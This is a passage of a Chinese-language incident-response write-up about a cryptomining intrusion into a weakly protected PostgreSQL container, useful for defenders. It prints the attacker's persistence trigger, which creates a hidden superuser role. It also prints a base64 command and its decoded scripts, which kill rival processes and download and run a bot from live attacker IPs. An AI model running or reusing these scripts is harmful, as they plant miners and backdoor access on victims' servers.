       p.proname AS func_name,
       pg_get_userbyid(p.proowner) AS func_owner
FROM pg_event_trigger e
JOIN pg_proc p ON p.oid = e.evtfoid
JOIN pg_namespace n ON n.oid = p.pronamespace
ORDER BY e.evtname;

-- 3) 导出函数源码
SELECT n.nspname, p.proname, pg_get_functiondef(p.oid)
FROM pg_proc p
JOIN pg_namespace n ON n.oid = p.pronamespace
WHERE p.oid IN (SELECT evtfoid FROM pg_event_trigger)
ORDER BY 1,2;
  evtname  |     evtevent      | evtenabled |     evtfoid
-----------+-------------------+------------+-----------------
 log_end   | ddl_command_end   | O          | escalate_priv()
 log_start | ddl_command_start | O          | escalate_priv()
(2 rows)

  evtname  | func_schema |   func_name   | func_owner
-----------+-------------+---------------+------------
 log_end   | public      | escalate_priv | postgres
 log_start | public      | escalate_priv | postgres
(2 rows)

 nspname |    proname    |                                  pg_get_functiondef
---------+---------------+--------------------------------------------------------------------------------------
 public  | escalate_priv | CREATE OR REPLACE FUNCTION public.escalate_priv()                                   +
         |               |  RETURNS event_trigger                                                              +
         |               |  LANGUAGE plpgsql                                                                   +
         |               | AS $function$                                                                       +
         |               | DECLARE                                                                             +
         |               | is_super BOOLEAN;                                                                   +
         |               | BEGIN                                                                               +
         |               | SELECT usesuper INTO is_super FROM pg_user WHERE usename = current_user;            +
         |               |                                                                                     +
         |               | IF is_super THEN                                                                    +
         |               |   BEGIN                                                                             +
         |               |     EXECUTE 'CREATE ROLE priv_esc WITH SUPERUSER LOGIN PASSWORD ''temp1237126512''';+
         |               |   EXCEPTION WHEN duplicate_object THEN                                              +
         |               |     NULL;                                                                           +
         |               |   WHEN OTHERS THEN                                                                  +
         |               |     NULL;                                                                           +
         |               |   END;                                                                              +
         |               |                                                                                     +
         |               |   BEGIN                                                                             +
         |               |     EXECUTE 'GRANT priv_esc TO postgres';                                           +
         |               |   EXCEPTION WHEN OTHERS THEN                                                        +
         |               |     NULL;                                                                           +
         |               |   END;                                                                              +
         |               | END IF;                                                                             +
         |               | END;                                                                                +
         |               | $function$                                                                          +
         |               |
(1 row)
```

注意到 `escalate_priv` 这个函数的内容

```sql
CREATE OR REPLACE FUNCTION public.escalate_priv()
 RETURNS event_trigger
 LANGUAGE plpgsql
AS $function$
DECLARE
is_super BOOLEAN;
BEGIN
SELECT usesuper INTO is_super FROM pg_user WHERE usename = current_user;

IF is_super THEN
  BEGIN
    EXECUTE 'CREATE ROLE priv_esc WITH SUPERUSER LOGIN PASSWORD ''temp1237126512''';
  EXCEPTION WHEN duplicate_object THEN
    NULL;
  WHEN OTHERS THEN
    NULL;
  END;

  BEGIN
    EXECUTE 'GRANT priv_esc TO postgres';
  EXCEPTION WHEN OTHERS THEN
    NULL;
  END;
END IF;
END;
$function$
```

无需多言，一眼就能知道是恶意语句，功能为持久化

##### 查大对象

大对象可能存在恶意文件，因此也要检查一下

```sql
SELECT count(*) AS large_object_count FROM pg_largeobject_metadata;
SELECT oid, lomowner FROM pg_largeobject_metadata ORDER BY oid DESC LIMIT 50;
```

得到如下输出

```sql
postgres=# SELECT count(*) AS large_object_count FROM pg_largeobject_metadata;
SELECT oid, lomowner FROM pg_largeobject_metadata ORDER BY oid DESC LIMIT 50;
 large_object_count
--------------------
                  0
(1 row)

 oid | lomowner
-----+----------
(0 rows)
```

这里是安全的。

##### 收尾工作

回滚掉事务即可

```sql
ROLLBACK;
```

## 危害阻断

考虑到服务器内并无实际数据，我们可以利用最简单的方法阻断掉所有危害

- 加入跳板机，启动防火墙
    - 现在只能通过跳板机进入服务器
- 启动更严格的日志监控
    - 尝试捕捉入侵者的再次进入
- 关闭对应的 `container`
    - 尽可能缩减攻击面，并且阻止危害的延伸

### 数据库清理

```sql
-- 关掉刚刚观察到的 trigger
ALTER EVENT TRIGGER log_start DISABLE;
ALTER EVENT TRIGGER log_end DISABLE;

-- 清理掉恶意对象
DROP EVENT TRIGGER IF EXISTS log_start;
DROP EVENT TRIGGER IF EXISTS log_end;
DROP FUNCTION IF EXISTS public.escalate_priv();

-- 清理恶意账户
ALTER ROLE priv_esc NOLOGIN;
REVOKE priv_esc FROM postgres;
DROP ROLE IF EXISTS priv_esc;

-- 更新更强的密码
ALTER ROLE postgres WITH PASSWORD '********************************';
```

在完成这一步后，请记得再次检查数据库的情况。

### 检查所有登录入口

检查系统的所有公钥

```bash
# 这是由 GPT 生成的命令，但我感觉十分好用
awk -F: '$7 !~ /(nologin|false)$/ {print $1 ":" $6}' /etc/passwd | while IFS=: read -r u h; do
    [ -d "$h/.ssh" ] || continue
    echo "==== $u ($h/.ssh) ===="
    ls -la --full-time "$h/.ssh"
    [ -f "$h/.ssh/authorized_keys" ] && nl -ba "$h/.ssh/authorized_keys"
done
```

得到输出

```text
==== root (/root/.ssh) ====
total 12
drwx------  2 root root 4096 2026-03-07 01:22:47.185379824 +0800 .
drwx------ 13 root root 4096 2026-03-07 03:07:24.448213030 +0800 ..
-rw-r--r--  1 root root   99 2026-03-07 01:22:47.169379538 +0800 authorized_keys
     1  ssh-ed25519 ******************************************************************** ********@********
==== ******** (/home/********/.ssh) ====
total 12
drwxr-xr-x 2 ******** root     4096 2026-03-07 01:23:59.174667093 +0800 .
drwxr-xr-x 5 ******** ******** 4096 2025-12-31 20:05:48.962162360 +0800 ..
-rw------- 1 ******** root       99 2026-03-07 01:23:59.166666950 +0800 authorized_keys
     1  ssh-ed25519 ******************************************************************** ********@********
==== ********** (/home/**********/.ssh) ====
total 12
drwxr-xr-x  2 ********** root       4096 2026-03-07 01:25:40.556476531 +0800 .
drwx------ 12 ********** ********** 4096 2026-03-07 03:06:57.491695365 +0800 ..
-rw-------  1 ********** **********   99 2026-03-07 01:25:40.548476389 +0800 authorized_keys
     1  ssh-ed25519 ******************************************************************** ********@********
```

初步认定系统的登录入口已经安全，以及系统已经禁止使用密码登录

### 阻断容器启动

容器很可能以某种方式被设置为自启动，因此我们需要阻断他

```bash
➜  ~ CID=************
➜  ~ podman inspect -f '{{.HostConfig.RestartPolicy.Name}}' "$CID"
no
➜  ~ podman update --restart=no "$CID"
****************************************************************
➜  ~ podman inspect -f '{{.HostConfig.RestartPolicy.Name}}' "$CID"
no
```

可以看到其实容器本身不是自启动的，不过保险起见设置一次

## 数据分析

基于 `sshd` 日志巨大的问题，我们可以做出初步判断：服务器受到了 ssh 爆破，但是否彻底被破坏结论未知。

以及我们的数据库早已被攻破。

我们得到了如下文件列表：

```bash
-rw-rw-r-- 1 krysztal krysztal  126 Mar  7 02:48 podman_diff_c3b3ccc85706_20260306T183021Z.txt          # Podman 的 diff
-rw-rw-r-- 1 krysztal krysztal  22K Mar  7 02:44 podman_inspect_c3b3ccc85706_20260306T183021Z.json      # Podman 的 inspect
-rw-rw-r-- 1 krysztal krysztal  99M Mar  7 02:45 podman_logs_c3b3ccc85706_20260306T183021Z.log          # 从 Podman 导出的 postgres 日志
-rw-rw-r-- 1 krysztal krysztal  751 Mar  7 02:39 podman_top_c3b3ccc85706_20260306T183021Z.txt           # 从 Podman 导出的 top
-rw-r--r-- 1 krysztal krysztal 172M Mar  7 01:18 sshd.json                                              # 从 systemd 导出的 sshd 日志
-rw-r--r-- 1 krysztal krysztal  38K Mar  7 02:46 ss_tnp_20260306T182826Z.txt                            # 从系统导出的网络
-rwx------ 1 krysztal krysztal 2.0M Mar  7 01:12 pid_3174152_root_tmp_mysql_                            # 捕捉到的恶意二进制
```

### `sshd` 侧分析

我们使用 `duckdb` 对 `sshd` 的日志进行分析和解析，毕竟我们已经提前将其转换成为了 JSON 格式

#### JSON 拆解

systemd-journald 导出的 sshd 日志文件格式约为

```json
{"_SYSTEMD_SLICE":"system.slice","SYSLOG_TIMESTAMP":"Feb 28 01:16:21 ","_SYSTEMD_CGROUP":"/system.slice/ssh.service","_SYSTEMD_UNIT":"ssh.service","_TRANSPORT":"syslog","__SEQNUM":"182136303","_EXE":"/usr/lib/openssh/sshd-session","_GID":"0","_UID":"0","SYSLOG_IDENTIFIER":"sshd-session","__SEQNUM_ID":"ac3d8da9479f4c5d8478a5191ffcecab","SYSLOG_FACILITY":"4","_HOSTNAME":"HW-2680v4-32-256-2","_SYSTEMD_INVOCATION_ID":"9f529114ba334e749241c840605f2437","_SELINUX_CONTEXT":"unconfined\n","PRIORITY":"6","_SOURCE_REALTIME_TIMESTAMP":"1772212581114712","_CMDLINE":"\"sshd-session: root [priv]\"","_PID":"3781931","MESSAGE":"Received disconnect from 4.184.246.230 port 37670:11: Bye Bye [preauth]","__REALTIME_TIMESTAMP":"1772212581114753","SYSLOG_PID":"3781931","_COMM":"sshd-session","_RUNTIME_SCOPE":"system","__CURSOR":"s=ac3d8da9479f4c5d8478a5191ffcecab;i=adb2def;b=370026de1e2b46018040b4c6bb61c751;m=8b8da453ef;t=64bd1655d2381;x=8fa8d525df6ceab5","__MONOTONIC_TIMESTAMP":"599376810991","_BOOT_ID":"370026de1e2b46018040b4c6bb61c751","_MACHINE_ID":"e2fa072722154c9089f264992b45f58d","_CAP_EFFECTIVE":"1ffffffffff"}
{"__SEQNUM":"182136304","_PID":"3781931","_CAP_EFFECTIVE":"1ffffffffff","_SYSTEMD_SLICE":"system.slice","_SYSTEMD_CGROUP":"/system.slice/ssh.service","_RUNTIME_SCOPE":"system","MESSAGE":"Disconnected from authenticating user root 4.184.246.230 port 37670 [preauth]","_MACHINE_ID":"e2fa072722154c9089f264992b45f58d","_SYSTEMD_INVOCATION_ID":"9f529114ba334e749241c840605f2437","_TRANSPORT":"syslog","_UID":"0","__MONOTONIC_TIMESTAMP":"599376811736","_BOOT_ID":"370026de1e2b46018040b4c6bb61c751","_CMDLINE":"\"sshd-session: root [priv]\"","_SYSTEMD_UNIT":"ssh.service","_HOSTNAME":"HW-2680v4-32-256-2","__CURSOR":"s=ac3d8da9479f4c5d8478a5191ffcecab;i=adb2df0;b=370026de1e2b46018040b4c6bb61c751;m=8b8da456d8;t=64bd1655d266a;x=b418ea74a65a0a99","_COMM":"sshd-session","SYSLOG_TIMESTAMP":"Feb 28 01:16:21 ","_SELINUX_CONTEXT":"unconfined\n","__SEQNUM_ID":"ac3d8da9479f4c5d8478a5191ffcecab","_SOURCE_REALTIME_TIMESTAMP":"1772212581114774","_GID":"0","__REALTIME_TIMESTAMP":"1772212581115498","PRIORITY":"6","SYSLOG_FACILITY":"4","SYSLOG_PID":"3781931","SYSLOG_IDENTIFIER":"sshd-session","_EXE":"/usr/lib/openssh/sshd-session"}
```

因此我们简单提取如下几个字段即可

```sql
CREATE TABLE sshd.sshd_useful(
  MESSAGE VARCHAR,
  SYSLOG_RAW VARCHAR,
  __REALTIME_TIMESTAMP VARCHAR,
  SYSLOG_TIMESTAMP VARCHAR,
  ip VARCHAR,
  username VARCHAR
);
```

我们使用如下 `duckdb` 语句来实现从 sshd.json 中提取我们需要的数据：

```sql
-- 放到 sshd schema 中
CREATE SCHEMA IF NOT EXISTS sshd;


-- 构建初始数据
DROP TABLE IF EXISTS sshd.sshd_raw;

CREATE TABLE sshd.sshd_raw AS
SELECT
  *
FROM
  read_json_auto('sshd.json');

DROP TABLE IF EXISTS sshd.sshd_useful;

CREATE TABLE sshd.sshd_useful AS
SELECT
  MESSAGE,
  SYSLOG_RAW,
  __REALTIME_TIMESTAMP,
  SYSLOG_TIMESTAMP
FROM
  sshd.sshd_raw;

-- 创建 ip 列和 username 列
ALTER TABLE sshd.sshd_useful
ADD COLUMN IF NOT EXISTS ip VARCHAR;

ALTER TABLE sshd.sshd_useful
ADD COLUMN IF NOT EXISTS username VARCHAR;

-- 提取日志中可能存在的用户名和 ip 地址
UPDATE sshd.sshd_useful
SET
  username = COALESCE(
    NULLIF(username, ''),
    NULLIF(regexp_extract(message, 'Invalid user\\s+([^ ]+)\\s+from', 1), ''),
    NULLIF(regexp_extract(message, 'for\\s+(?:invalid user\\s+)?([^ ]+)\
\s+from', 1), ''),
    NULLIF(regexp_extract(message, 'authenticating user\\s+([^ ]+)', 1), ''),
    NULLIF(regexp_extract(message, 'user=([^ ]+)', 1), '')
  ),
  ip = NULLIF(regexp_extract(MESSAGE, '([0-9]{1,3}([.][0-9]{1,3}){3})', 1), '');

-- 聚合 IP 数量到一张表中
CREATE OR REPLACE TABLE sshd.sshd_ip_agg AS
SELECT
  ip,
  COUNT(*) AS ip_count
FROM
  sshd.sshd_useful
WHERE
  ip IS NOT NULL
  AND ip <> ''
GROUP BY
  ip;

-- 聚合用户数量到一张表中
CREATE OR REPLACE TABLE sshd.sshd_username_agg AS
SELECT
  username,
  COUNT(*) AS username_count
FROM
  sshd.sshd_useful
WHERE
  username IS NOT NULL
  AND username <> ''
GROUP BY
  username;

-- 聚合 IP 与用户名的关系
CREATE OR REPLACE TABLE sshd.sshd_ip_username_agg AS
SELECT
  ip,
  username,
  COUNT(*) AS pair_count
FROM
  sshd.sshd_useful
WHERE
  ip IS NOT NULL
  AND ip <> ''
  AND username IS NOT NULL
  AND username <> ''
GROUP BY
  ip,
  username;
```

在执行完毕上述命令后，我们得到了如下表格用于接下来的分析

- sshd.sshd_raw
    - 从 json 提取的原始数据
- sshd.sshd_useful
    - 从 `sshd.sshd_raw` 中分离的有效数据
- sshd.sshd_ip_agg
    - 妄图通过 `sshd` 爆破的 IP 数据
- sshd.sshd_ip_username_agg
    - 聚合得到的 IP 和用户名的关系
- sshd.sshd_username_agg
    - 聚合得到的用户名分布

#### 通过 GeoIP 进行进一步分析

GeoIP 分为 City 和 ASN 两个数据库，我们都需要用到。

在 `duckdb` 中安装 [duckdb_geoip_rs](https://duckdb.org/community_extensions/extensions/duckdb_geoip_rs) 拓展，并且将其需要的数据库放在指定位置上。

我们通过如下 `duckdb` 语句进行进一步数据分析和转换，提取出我们需要的数据：

> [!NOTE]
> ChatGPT 做这种事情真的太方便了你知道吗

```sql
-- 安装拓展
INSTALL duckdb_geoip_rs
FROM
  community;

LOAD duckdb_geoip_rs;

-- 确认函数存在
SELECT
  function_name
FROM
  duckdb_functions()
WHERE
  function_name IN ('geoip_country_iso', 'geoip_city', 'geoip_asn_org', 'geoip_asn_num');

-- 先做一张“带地理信息”的结果表
CREATE OR REPLACE TABLE sshd.sshd_ip_username_geo AS
SELECT
  ip,
  username,
  pair_count,
  NULLIF(geoip_country_iso (ip), '') AS country_iso,
  NULLIF(geoip_city (ip), '') AS city,
  NULLIF(geoip_asn_org (ip), '') AS asn_org,
  NULLIF(geoip_asn_num (ip), '') AS asn_num
FROM
  sshd.sshd_ip_username_agg
WHERE
  ip IS NOT NULL
  AND ip <> '';

CREATE SCHEMA IF NOT EXISTS result;

-- 1) 国家维度攻击汇总
CREATE OR REPLACE TABLE result.sshd_attack_by_country AS
SELECT
  'sshd' AS source,
  COALESCE(country_iso, 'UNKNOWN') AS country,
  SUM(pair_count) AS total_events,
  COUNT(DISTINCT ip) AS uniq_ip
FROM
  sshd.sshd_ip_username_geo
GROUP BY
  1,
  2;

-- 2) ASN 维度攻击汇总
CREATE OR REPLACE TABLE result.sshd_attack_by_asn AS
SELECT
  'sshd' AS source,
  COALESCE(asn_num, 'UNKNOWN') AS asn_num,
  COALESCE(asn_org, 'UNKNOWN') AS asn_org,
  SUM(pair_count) AS total_events,
  COUNT(DISTINCT ip) AS uniq_ip
FROM
  sshd.sshd_ip_username_geo
GROUP BY
  1,
  2,
  3;

-- 3) 高频 IP + 用户名 组合明细（可疑热点）
CREATE OR REPLACE TABLE result.sshd_ip_username_hotspots AS
SELECT
  'sshd' AS source,
  ip,
  username,
  pair_count,
  country_iso,
  city,
  asn_org,
  asn_num
FROM
  sshd.sshd_ip_username_geo;

-- 4) 兼容你之前的“asn_attack_count”口径（仅事件数）
CREATE OR REPLACE TABLE result.sshd_asn_attack_count AS
SELECT
  'sshd' AS source,
  COALESCE(NULLIF(geoip_asn_num (ip), ''), 'UNKNOWN') AS asn_num,
  COALESCE(NULLIF(geoip_asn_org (ip), ''), 'UNKNOWN') AS asn_org,
  SUM(pair_count) AS attack_events
FROM
  sshd.sshd_ip_username_agg
WHERE
  ip IS NOT NULL
  AND ip <> ''
GROUP BY
  1,
  2,
  3;
```

至此我们得到了如下几张新的表

- result.sshd_asn_attack_count
    - ASN 维度分析
- result.sshd_attack_by_asn
    - ASN 维度分析
- result.sshd_attack_by_country
    - 国家维度分析
- result.sshd_ip_username_hotspots
    - 用户名维度分析

### `postgres` 侧分析

我们不仅仅从 `sshd` 获取到了日志，还从 `postgres` 上获取到了日志。因此这部分日志也是有很大点可以用于分析的。

#### 日志拆解

通过分析日志，我们观察到了除了爆破外还有如下奇怪的日志

```text
2026-03-06T12:37:24.894586000+08:00 2026-03-06 04:37:24.894 UTC [1148610] ERROR:  program "echo ZnVuY3Rpb24gX19jdXJsKCkgewogIHJlYWQgcHJvdG8gc2VydmVyIHBhdGggPDw8IiQocHJpbnRmICclcycgIiQxIiB8IHNlZCAncyM6Ly8jICM7cyMvIyAjJykiCiAgRE9DPSIvJHBhdGgiCiAgSE9TVD0iJHtzZXJ2ZXIlJToqfSIKICBQT1JUPSIke3NlcnZlciMjKjp9IgogIFsgIiRIT1NUIiA9ICIkUE9SVCIgXSAmJiBQT1JUPTgwCiAgZXhlYyAzPD4vZGV2L3RjcC8kSE9TVC8kUE9SVAogIHByaW50ZiAiR0VUICVzIEhUVFAvMS4xXHJcbkhvc3Q6ICVzXHJcbkNvbm5lY3Rpb246IGNsb3NlXHJcblxyXG4iICIkRE9DIiAiJEhPU1QiID4mMwogIHdoaWxlIElGUz0gcmVhZCAtciBsaW5lIDwmMzsgZG8KICAgIGxpbmU9JHtsaW5lJSQnXHInfQogICAgWyAteiAiJGxpbmUiIF0gJiYgYnJlYWsKICBkb25lCiAgY2F0IDwmMwogIGV4ZWMgMz4mLQp9Cgpmb3IgcGlkIGluIC9wcm9jL1swLTldKjsgZG8gcGlkPSR7cGlkIyMqL307IHJlc3VsdD0kKGxzIC1sIC9wcm9jLyRwaWQvZXhlKTsgY2FzZSAkcmVzdWx0IGluICoiL3RtcC93YXRjaGRvZyIqfCoiL3Zhci9Tb2ZpYSIqfCoibWNybmxob3kiKnwqInBnX21lbSIqfCoieDg2Iip8KiJtZW1mZCIqfCoiLm1ldGFiYXNlIip8KiJjYXQiKnwqIi90bXAvLiIqfCoiL3RtcC8uci5ycGsvIip8KiJqYXZhdm02NCIqfCoiaHR0cGQiKnwqImRvY2tlcmQiKnwqInJlZGlzZXJ2ZXIiKnwqImRhc2giKnwqImtpbnNpbmciKnwqImtkZXZ0bXBmc2kiKnwqIi90bXAvLnBlcmYuYy8iKnwqIi90bXAvY2NybCIqfCoiL3RtcC9odHRwZCIqfCoicNC+c3RtYXN0ZXIiKikga2lsbCAtOSAkcGlkIDs7IGVzYWM7IGRvbmUKZm9yIHAgaW4gL3Byb2MvWzAtOV0qOyBkbyBwaWQ9JHtwIyMqL307IGV4ZT0kKGxzIC1sIC9wcm9jLyRwaWQvZXhlIDI+L2Rldi9udWxsKTsgY2FzZSAiJGV4ZSIgaW4gKiJpbml0IiopIGV4aXQgOzsgZXNhYzsgZG9uZQpfX2N1cmwgaHR0cDovLzE4MS4yMTQuMTQ3LjEwOC9ib3QgPiAvdG1wL2JvdCAmJiBjaG1vZCAreCAvdG1wL2JvdCAmJiBjZCAvdG1wOy4vYm90IGRhdGFiYXNlMTsK|base64 -d|bash" failed
```

那么我们需要把这个日志提取出来。由于 duckdb 的网页端写正则总有奇怪的问题，因此我选择直接根据引号进行分割提取其中的内容

```sql

CREATE SCHEMA IF NOT EXISTS result;

-- 直接提取结果
CREATE OR REPLACE TABLE result.postgres_exec_commands AS
WITH
  src AS (
    SELECT
      content
    FROM
      read_text('podman_logs_c3b3ccc85706_20260306T183021Z.log')
  ),
  cmds AS (
    SELECT
      unnest(regexp_extract_all(content, '(?i)program[[:space:]]+[''"]([^''"]+)[''"]', 1)) AS cmd_raw
    FROM
      src
  )
SELECT
  cmd_raw,
  CASE
    WHEN cmd_raw LIKE 'echo %|base64 -d|bash' THEN CAST(
      from_base64(split_part(split_part(cmd_raw, 'echo ', 2), '|base64 -d|bash', 1)) AS VARCHAR
    )
    ELSE NULL
  END AS script_readable
FROM
  cmds
WHERE
  cmd_raw IS NOT NULL
  AND trim(cmd_raw) <> '';

-- 美化之前的提取结果
CREATE OR REPLACE TABLE result.postgres_exec_commands_pretty AS
WITH
  base AS (
    SELECT DISTINCT
      cmd_raw
    FROM
      result.postgres_exec_commands
    WHERE
      cmd_raw IS NOT NULL
      AND trim(cmd_raw) <> ''
  ),
  parsed AS (
    SELECT
      cmd_raw,
      CASE
        WHEN cmd_raw LIKE 'echo %|base64 -d|bash' THEN split_part(split_part(cmd_raw, 'echo ', 2), '|base64 -d|bash', 1)
        ELSE NULL
      END AS b64_payload
    FROM
      base
  ),
  decoded AS (
    SELECT
      cmd_raw,
      b64_payload,
      CASE
        WHEN b64_payload IS NOT NULL
        AND b64_payload <> '' THEN CAST(from_base64(b64_payload) AS VARCHAR)
        ELSE NULL
      END AS script_decoded_raw
    FROM
      parsed
  )
SELECT
  cmd_raw,
  b64_payload,
  script_decoded_raw,
  replace(
    replace(replace(script_decoded_raw, '\x0A', chr(10)), '\x22', '"'),
    '\x27',
    ''''
  ) AS script_readable
FROM
  decoded;
```

#### 数据分析

现在我们终于得到了有用的数据，得到了两条命令

```bash
# Script0
function __curl() {
  read proto server path <<<"$(printf '%s' "$1" | sed 's#://# #;s#/# #')"
  DOC="/$path"
  HOST="${server%%:*}"
  PORT="${server##*:}"
  [ "$HOST" = "$PORT" ] && PORT=80

  exec 3<>/dev/tcp/$HOST/$PORT
  printf "GET %s HTTP/1.1\r\nHost: %s\r\nConnection: close\r\n\r\n" "$DOC"
"$HOST" >&3

  while IFS= read -r line <&3; do
    line=${line%$'\r'}
    [ -z "$line" ] && break
  done

  cat <&3
  exec 3>&-
}

for pid in /proc/[0-9]*; do
  pid=${pid##*/}
  result=$(ls -l /proc/$pid/exe)
  case $result in
    *"/tmp/watchdog"*|*"/var/Sofia"*|*"mcrnlhoy"*|*"pg_mem"*|*"x86"*|
*"memfd"*|*".metabase"*|*"cat"*|*"/tmp/."*|*"/tmp/.r.rpk/"*|*"javavm64"*|
*"httpd"*|*"dockerd"*|*"rediserver"*|*"dash"*|*"kinsing"*|*"kdevtmpfsi"*|
*"/tmp/.perf.c/"*|*"/tmp/ccrl"*|*"/tmp/httpd"*|*"pоstmaster"*)
      kill -9 "$pid"
      ;;
  esac
done

for p in /proc/[0-9]*; do
  pid=${p##*/}
  exe=$(ls -l /proc/$pid/exe 2>/dev/null)
  case "$exe" in
    *"init"*) exit ;;
  esac
done

__curl http://181.214.147.108/bot > /tmp/bot && chmod +x /tmp/bot && cd /
tmp; ./bot database1;

# Script1
function __curl() {
  read proto server path <<<"$(printf '%s' "$1" | sed 's#://# #;s#/# #')"
  DOC="/$path"
  HOST="${server%%:*}"
  PORT="${server##*:}"
  [ "$HOST" = "$PORT" ] && PORT=80

  exec 3<>/dev/tcp/$HOST/$PORT
  printf "GET %s HTTP/1.1\r\nHost: %s\r\nConnection: close\r\n\r\n" "$DOC"
"$HOST" >&3

  while IFS= read -r line <&3; do
    line=${line%$'\r'}
    [ -z "$line" ] && break
  done

  cat <&3
  exec 3>&-
}

for pid in /proc/[0-9]*; do
  pid=${pid##*/}
  result=$(ls -l /proc/$pid/exe)
  case $result in
    *"/tmp/watchdog"*|*"/var/Sofia"*|*"mcrnlhoy"*|*"pg_mem"*|*"x86"*|
*"memfd"*|*".metabase"*|*"cat"*|*"/tmp/."*|*"/tmp/.r.rpk/"*|*"javavm64"*|
*"httpd"*|*"dockerd"*|*"rediserver"*|*"dash"*|*"kinsing"*|*"kdevtmpfsi"*|
*"/tmp/.perf.c/"*|*"/tmp/ccrl"*|*"/tmp/httpd"*|*"pоstmaster"*)
      kill -9 "$pid"
      ;;
  esac
done

for p in /proc/[0-9]*; do
  pid=${p##*/}
  exe=$(ls -l /proc/$pid/exe 2>/dev/null)
  case "$exe" in
    *"init"*) exit ;;
  esac
done

__curl http://85.209.231.47/bot > /tmp/bot && chmod +x /tmp/bot && cd /tm
p; ./bot database1;
```

大致观察了一下，两个脚本的逻辑几乎是相同的，但是特征上有些许不同

#### 脚本分析

注意到这两个脚本有一段这种逻辑

```bash
for pid in /proc/[0-9]*; do
  pid=${pid##*/}
  result=$(ls -l /proc/$pid/exe)
  case $result in
    *"/tmp/watchdog"*|*"/var/Sofia"*|*"mcrnlhoy"*|*"pg_mem"*|*"x86"*|
*"memfd"*|*".metabase"*|*"cat"*|*"/tmp/."*|*"/tmp/.r.rpk/"*|*"javavm64"*|
*"httpd"*|*"dockerd"*|*"rediserver"*|*"dash"*|*"kinsing"*|*"kdevtmpfsi"*|
*"/tmp/.perf.c/"*|*"/tmp/ccrl"*|*"/tmp/httpd"*|*"pоstmaster"*)
      kill -9 "$pid"
      ;;
  esac
done
```

目的像是要杀死所有的竞争者，并且要主动杀死 `dockerd`、`redisserver`、`cat` 这些指令的运行，以及像是要杀死其他的 `/tmp/*` 形式的进程，就像是竞争者。

很庆幸的是服务器基础安全措施到位，恶意二进制只能在容器内运行，容器内保持单一服务设计，因此他没能杀死任何进程。

除此之外还注意到有两个请求地址

- http://85.209.231.47/bot
- http://181.214.147.108/bot

> [!NOTE]
>
> 考虑到其罪恶深重，特不予任何隐藏。
>
> 将其公之于众，望网友与其尽情欢愉。

### 二进制分析

至此，我们得到了三个二进制：

- 被捕捉到的 `/tmp/mysql`
- 来自 http://85.209.231.47/bot 的下载器
- 来自 http://181.214.147.108/bot 的下载器

将以上三个二进制文件放到沙盒中进行检测，得到如下结果

- [腾讯安全：威胁情报中心](https://tix.qq.com/search/single?keyword=590b00dff7a44130ebe1350a5b4ddc97)
- [Filescan.io](https://www.filescan.io/uploads/69ac1d07cd25bfe1dfe3846e/reports/806fb063-b852-400c-a647-9fca9a56ac84)
- [Hybrid Analysis](https://hybrid-analysis.com/sample/77d764ced0a7bcac8814aaa2a08a1d11762f3c702eb06b77b6388d3f279951a8)

且得到了一份 Filescan.io 提供的 ChatGPT 摘要

> Executive Summary: Malware Technical Capabilities
>
> - Cryptographic Algorithms Detected: The malware exhibits the capability to
>   use cryptographic algorithms for encryption, potentially to obfuscate its
>   communication channels (MITRE ID: T1573).
> - Packed Executable: The malware is packed with a known packer/protector,
>   indicating an attempt to evade detection and analysis (MITRE ID:
>   T1027.002).
> - High Entropy Value: The executable demonstrates a high entropy value of
>   7.945, suggesting potential complexity and sophisticated code obfuscation
>   techniques.
> - YARA Rule Match: The malware matches a relevant YARA rule, indicating that
>   specific behavioral or code patterns associated with known threats were
>   identified.
> - Multiple Antivirus Labels: The malware has been identified by various
>   antivirus products with labels such as Elf.Trojan, CoinMiner, TR/Malware,
>   and Trojan_Linux_CoinMiner_C12, highlighting its malicious nature and
>   diverse detection coverage.

根据分析结果，这是一个挖矿程序，且主要挖的是罗门币。

其会与如下域名进行通讯：fokoffkont.anondns.net

这是一个常见的僵尸网络所使用的 DNS。由于我们只分析不反击因此到此为止。（我也不知道怎么继续了说实话）

## 日后谈

虽说不是灾难，但是也算是一场伤痛。服务器的安全措施永远是十足重要且需要花心思去良好设置的一环。

介于此，还是写一下日后谈吧。

### 入侵链路

在分析完毕利用 `duckdb` 提取的数据后发现 `sshd` 没有被攻破，说明强密码策略依然是有效的；被攻破的数据库使用了弱密码——但还好只是测试用的数据库。

更重要的是，正确使用了 `rootless` 容器 `podman` 阻拦了灾难的进一步延伸。恶意二进制没有识别出正在 `podman` 中运行，因此露了马脚。

从所有信息中可以看到有两条线路被入侵

- `sshd`
    - 更改端口并没有显著作用，依然会被扫端口然后确定到底是什么端口
    - 强密码的作用十分显著，使得攻击者很难非常缓慢的从密码方面取得服务器的权限
    - 但强密码依然不如密钥对安全
- `postgres`
    - `postgres` 使用了弱密码，被快速攻破
    - 但 `postgres` 在容器内运行，因此无法获得更高的权限
    - 恶意脚本通过 `trigger` 的方式持久化自身，避免自己被很轻易地杀掉
    - 恶意脚本没有检测到自己正在 `podman` 中运行，露出了马脚
    - 恶意脚本通过授权自身 `pg_execute_server_program` 角色来实现执行命令，将恶意二进制带入容器之中

庆幸的是，容器可以被随时恢复，被植入到数据库中的恶意语句也被顺利清除；即使这只是测试用的数据库。

### 结论

由于我需要专心研发，这台服务器实际上只是我的测试机器，但是在未来会转型成为生产机。我在转向专心开发之前委托过他人帮我好生修整服务器的安全措施。

可惜的是，负责这个工作的人没有完成其职能导致服务器遭到了入侵；万幸的是，基础安全措施做得足够好，没有让危害进一步扩大。

这次教训也说明了服务器的安全措施是必不可少的，比起杂七杂八的安全和一大堆假设，一套精心设计的安全措施更能让人感到安心。
